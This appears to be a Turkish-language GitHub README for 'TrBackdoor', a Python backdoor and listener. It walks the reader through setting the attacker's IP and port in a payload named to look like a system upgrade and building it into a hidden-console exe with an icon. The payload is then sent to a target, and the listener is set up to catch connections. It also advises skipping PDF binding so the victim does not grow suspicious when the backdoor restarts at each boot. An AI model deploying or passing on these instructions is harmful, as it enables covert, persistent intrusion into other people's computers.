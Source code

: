# TrBackdoor
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/Command.png)
## Backdoor Ayarları
Öncelikle "sysupgrades.py" dosyamızı herhangi bir editör ile açınız ('SublimeText3').<br/>Daha sonra sınıfın dışında yani kod bloklarının altında yer alan"ConfigSocket = MySocket("buraya bağlantı açacak bir ip adresi",port) kısmına backdoor için bir ip adresi ve port numarası giriniz. Yani
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/BackdoorConfig.png)
## Exe'ye Çevirme
"sysupgrades.py" backdoor'umuzu hedefimize göndermeden önce "pyinstaller" kullanarak exe'ye çevirelim.<br/> Burada size önerdiğim exe'ye çevirme işleminde mutlaka bir icon ekleyiniz ve noconsole komutunu kullanınız. Fakat dosyayı bir başka dosya ile (pdf) birleştirmeyiniz. Çünkü bağlantı sağladıktan sonra "migrate" komutunu kullandığınız sırada backdoor saklanacaktır. Kullanıcı bilgisayarını her başlattığında başlayacaktır. İşte bu başlatma sırasında her defasında backdoor ile birlikte pdf açılmasın ki kullanıcı şüphelenmesin diye exe'ye çevirirken bir dosya ile birleştirilmesini önermiyorum.<br/>
<br/>![ConverotrExe](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ExeConvertor.png)<br/>
## Listener Ayarları
"Listener.py" dosyamızı yine bir editör ile açalım. Ardından yine alt tarafta yer alan<br/> "my_socket_listener = SocketListener("Dinleyici ip adresi",port)" kısmını kendi local ip adresinizi giriniz. Yani<br/>
<br/>![ConfigListener](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/ListenerSettings.png)<br/>Böylece artık gelen bağlantıları dinlemeye hazırsınız.<br/>[!<br/>[Watch the video](https://github.com/OgulcanKacarr/TrBackdoor/blob/master/ConfigImages/MainMenu.png)](https://www.youtube.com/watch?v=NVCAhal6wl8&feature=youtu.be)
